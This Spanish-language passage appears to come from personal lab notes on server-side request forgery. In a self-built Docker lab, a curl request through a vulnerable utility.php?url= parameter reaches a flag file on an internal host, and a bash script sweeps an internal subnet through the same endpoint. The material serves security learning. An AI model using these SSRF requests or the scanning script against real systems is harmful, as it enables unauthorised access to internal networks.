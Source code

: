 ----
Agregaremos el panel de **Login** para la **máquina PRO** y luego para la **máquina PRE** crearemos un archivo a modo de **FLAG** llamado *passwd.txt* (Debemos instalar Python3 y todo lo demás en el contenedor PRE), podemos ponerlo en el directorio que queramos, en mi caso lo colocaremos en */tmp/*. Solo resta abrir un servidor con Python3 ``python3 -m http.server 8089`` e intentar explotar la máquina **PRO**.

Instalaremos ``curl`` en la máquina **ATTACKER** porque haremos la explotación desde la **terminal**.

### Explotando SSRF

Nosotros únicamente vemos la web **PRO** que está expuesta, imaginemos que encontramos una vulnerabilidad en alguna parte de la web que nos permite colocar dominios, en este caso esa utilidad es la utilidad **utility.php** que creamos nosotros, colocamos el parámetro ``?url=`` todo desde la terminal con el uso de ``curl``.

Si hacemos un ``curl http://172.17.0.2/utility.php?url=http://10.10.0.3:8089`` lo que estamos haciendo es aprovechar la máquina *172.17.0.2* con la utilidad para llegar a una máquina que se encuentra en una red interna que no es visible desde fuera cómo *ATTAKER*.

![[SSRF 11.png]]

Ahora solo resta en el ``curl`` agregarle el nombre del archivo de texto *passwd.txt* para ver su contenido.

![[SSRF 12.png]]

==Es complicado así de primeras a través de un SSRF poder hacerte la idea directamente de la topología de la red, mayoritariamente habrá que aplicar un descubrimiento manual.==

Iterar desde `0.0.0.0` hasta `255.255.255.255` en un script bash no es práctico ni recomendable debido a la enorme cantidad de direcciones IP involucradas (4,294,967,296 direcciones). Esto consumiría una cantidad significativa de tiempo y recursos de computación. Sin embargo, si necesitas hacer algo con un rango más manejable, como direcciones en subredes específicas, se podría hacer de la siguiente manera.

Por ejemplo, iterar sobre un rango de direcciones IPv4 en una subred específica, como `10.0.0.0/24`, sería más razonable. Acá te dejo un ejemplo de script bash que itera sobre todas las direcciones en la subred `10.0.0.0/24`

```bash
#!/bin/bash

subnet="10.10.0"  # Cambia la subred según tus necesidades

for i in {1..255}; do
    ip_address="$subnet.$i"
    echo "Procesando $ip_address"
    
    # Realizar la solicitud HTTP usando curl y guardar la respuesta en un archivo temporal
    response=$(curl -s "http://172.17.0.2/utility.php?url=http://$ip_address")
    
    # Verificar si la respuesta contiene "200 OK"
    if [[ "$response" == *"200 OK"* ]]; then
        echo "Contenido de $ip_address:"
        echo "$response"  # Mostrar la respuesta completa
    fi
done
```

